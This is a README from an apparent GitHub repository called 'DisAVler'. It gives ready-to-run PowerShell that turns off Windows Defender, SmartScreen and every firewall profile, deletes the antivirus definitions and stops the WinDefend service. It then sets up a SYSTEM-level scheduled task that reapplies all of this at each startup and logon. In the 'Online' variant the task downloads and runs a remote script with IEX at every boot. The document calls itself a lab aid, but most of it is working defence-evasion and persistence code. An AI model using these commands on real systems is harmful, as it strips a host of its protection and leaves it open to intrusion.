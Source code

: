 🧑‍🎓 This **_naive_** repo is created for educational purposes only [_and only for me!_]

Why **_naive_** ? Because if CloudProtection is enabled you won't go far! 🤷‍♂️ 

Why I created it? If you are in the same boat with me, _having a lab Windows VM that restarts WinDefend features every time on StartUp_, then you are at the right time, in the right place [probably] :)

Global connection NOT RECOMMENDED! ❌

# DisAVler
🚮 This is the repository that disables Windows Defender and its features on startup.

# AV Disabler [disAVler.txt]
## Offline
### Prepare the disablers [having DisAVler.txt on the host]:
Download the `disAVle.txt` file from repository into `C:\Windows\Tasks\`.

Or Execute this sh1t with PS [offline]:
```
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\Notifications" -Name "DisableEnhancedNotifications" -Type DWord -Value 1;' > C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off" -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings\Windows.SystemToast.SecurityAndMaintenance"
$propertyName = "Enabled"
$desiredValue = 0
if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Private,Public -NotifyOnListen False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -UILockdown $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'cd "C:\Program Files\Windows Defender";' >> C:\Windows\Tasks\DisAVler.txt;
echo '.\MpCmdRun.exe -removedefinitions -all;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Remove-MpPreference;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableRealtimeMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -SubmitSamplesConsent 2;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableArchiveScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableEmailScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableScriptScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIntrusionPreventionSystem $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIOAVProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBehaviorMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBlockAtFirstSeen $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Public -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -MAPSReporting 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -PUAProtection 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableCloudProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Stop-Service -Name WinDefend -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-Service -Name WinDefend -StartupType Disabled;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer";' >> C:\Windows\Tasks\DisAVler.txt;
echo '$propertyName = "SmartScreenEnabled"; >> C:\Windows\Tasks\DisAVler.txt;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$desiredValue = "Off";' >> C:\Windows\Tasks\DisAVler.txt;
echo 'if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
```

### Setup Task Scheduler
Execute this sh1t with PS for offline:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "GET-Content -Raw C:\Windows\Tasks\DisAVler.txt | IEX"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```


## Online
Execute this sh1t with PS for online [having DisAVler.txt on another host]. 

Change https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt with your hosted file:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt')"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```

### _Win or lose, blame yourself, if anything happens to you, because you are still alive_ 🫶🏻
<!-- [Giorgi Dograshvili]([url](https://www.linkedin.com/in/giorgi-dograshvili)) -->
